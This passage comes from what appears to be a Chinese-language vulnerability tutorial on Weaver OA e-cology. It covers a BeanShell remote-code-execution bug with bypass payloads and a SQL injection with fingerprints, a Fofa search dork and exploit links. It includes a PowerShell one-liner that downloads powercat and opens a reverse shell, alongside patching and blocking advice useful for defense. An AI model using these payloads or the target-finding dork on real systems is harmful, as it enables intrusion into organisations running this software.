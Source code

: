 1.其他形式绕过

`eval%00("ex"%2b"ec(\"whoami\")");` 也可以换成 `ex\u0065c("cmd /c dir");`

2.泛微多数都是windows环境, 反弹shell可以使用pcat

`Powershell`

`IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd`

**8.** **防护方法**

1.及时更新泛微补丁

2.拦截`/weaver/bsh.servlet.BshServlet`目录的访问

  

2

  

泛微OA e-cology SQL注入漏洞
---------------------

  

**1.** **漏洞简介**

泛微OA在国内的用户很多,漏洞以前也很多,但现在在漏洞盒子托管了企业SRC https://weaversrc.vulbox.com/, 情况有所好转

**2.** **影响组件**

泛微OA

**3.** **漏洞指纹**

`Set-Cookie: ecology_JSessionId=`

`ecology`

`WorkflowCenterTreeData`

`/mobile/plugin/SyncUserInfo.jsp`

**4. Fofa Dork**

`app="``泛微-协同办公OA"`

**5.** **漏洞分析**

泛微OA WorkflowCenterTreeData接口注入漏洞(限oracle数据库) – 先知社区  
https://xz.aliyun.com/t/6531

**6.** **漏洞利用**

泛微OA e-cology WorkflowCenterTreeData前台接口SQL注入漏洞复现_数据库_小龙人-CSDN博客  
https://blog.csdn.net/zycdn/article/details/102494037

Tentacle/ecology8_mobile_sql_inject.py at 6e1cecd52b10526c4851a26249339367101b3ca2 · orleven/Tentacle  
https://github.com/orleven/Tentacle/blob/6e1cecd52b10526c4851a26249339367101b3ca2/script/ecology/ecology8_mobile_sql_inject.py
